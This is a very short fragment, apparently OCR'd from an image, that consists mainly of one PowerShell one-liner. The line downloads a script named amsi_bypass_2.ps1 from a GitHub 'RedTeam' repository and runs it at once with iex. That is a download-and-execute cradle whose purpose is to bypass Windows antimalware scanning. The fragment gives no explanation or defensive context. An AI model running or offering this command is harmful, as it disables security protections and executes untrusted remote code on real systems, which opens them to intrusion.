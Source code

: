 [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.SecurityProtocolType]::Tls12;iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/dottorvenom/RedTeam/main/amsi_bypass_2.ps1');